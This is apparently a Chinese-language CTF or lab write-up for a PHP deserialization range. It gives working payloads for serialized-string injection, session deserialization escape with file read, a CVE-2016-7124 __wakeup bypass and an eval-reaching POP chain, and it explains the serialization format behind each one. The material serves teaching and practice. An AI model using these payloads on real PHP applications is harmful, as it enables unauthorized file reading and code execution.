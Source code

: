 # 反序列化靶场



# 01

### 反序列化

### payload

```
?flag=s:5:"admin"
```

### 解析

执行代码输出反序列化结果

```php
echo serialize("admin");
```



解释一下



# 02

### 反序列化逃逸

### payload1

URL

```
?img_path=1&f=show
```

POST

```
_SESSION[user]=flagflagflagflagflag
&_SESSION[func]=a";s:3:"img";s:12:"ZmxhZy5waHA=";s:1:"a";s:1:"a";}
```

### payload2

URL

```
?img_path=1&f=show
```

POST

```
_SESSION[flagflag]=";s:3:"aaa";s:3:"img";s:12:"ZmxhZy5waHA=";}
```

### 解析

这道题目改编19年安洵杯的反序列化题的

很标准的反序列化逃逸

考点是变量覆盖和preg_replace造成的反序列化逃逸以及任意文件读取



# 03
### 使用CVE-2016-7124绕过_wake  private、protected修饰时的格式问题

**漏洞影响版本：**
php5 < 5.6.25
php7 < 7.0.10

payload

```
?file=O%3A4%3A%22Demo%22%3A2%3A%7Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A8%3A%22flag.php%22%3B%7D
```

解析		

直接构建类 url编码构造出两个%00  str_replace 是将 里面1 替换成2  （就是利用CVE-2016-7124 。当序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup的执行，我们这里只需要搞一个大于1的数字就好了

```
class Demo
{
    protected $file = 'flag.php';
}

echo urlencode(str_replace('":1:','":2:',serialize(new Demo())));
```



这里不知道有没有小伙伴注意到，如果你不编码，直接输出，这里输出的应该是

```php
O:4:"Demo":2:{s:7:"*file";s:8:"flag.php";}
```

数组key的部分是s:7:"*file"      为什么这里有只有五个字符，s的长度却是7呢

原因是这样的

private属性序列化的时候，格式是%00类名%00成员名
protect属性序列化的时候，格式是%00*%00成员名 

这里的这个部分是 

```php
protected $file = 'index.php';
```

所以实际是

```
O:4:"Demo":2:{s:7:"%00*%00file";s:8:"flag.php";}
```



# 04

### 同名函数

```php
<?php

  class A{
  var $target;
  function __construct(){
    $this->target=new C;
    $this->target->test='phpinfo';
  }
  function __destruct(){
    $this->target->action();
  }
}
class C{
  var $test;
  function action(){
    echo "action C";
    eval($this->test);
  }
 }
$a=new A;
echo serialize($a);#O:1:"A":1:{s:6:"target";O:1:"C":1:{s:4:"test";s:10:"phpinfo();";}}
```



payload

```
?test=O:1:"A":1:{s:6:"target";O:1:"C":1:{s:4:"test";s:8:"flag.php";}}
```



构建的函数

```php
class A
{
    public $target;

    function __construct()
    {
        $this->target = new C;
        $this->target->test = "flag.php";
    }

    function __destruct()
    {
        $this->target->action();
    }
}

class C
{
    public $test;

    function action()
    {
        echo "action C";
        eval($this->test);
    }
}

echo serialize(new A);
```



# 05

PHP Session反序列化漏洞

https://xz.aliyun.com/t/6640

https://blog.csdn.net/m0_37421065/article/details/78930935

https://www.php.net/manual/zh/session.configuration.php



## 06

phar反序列化漏洞

## 07

2020 网鼎杯 areuserialz

## 08



分块传输绕waf
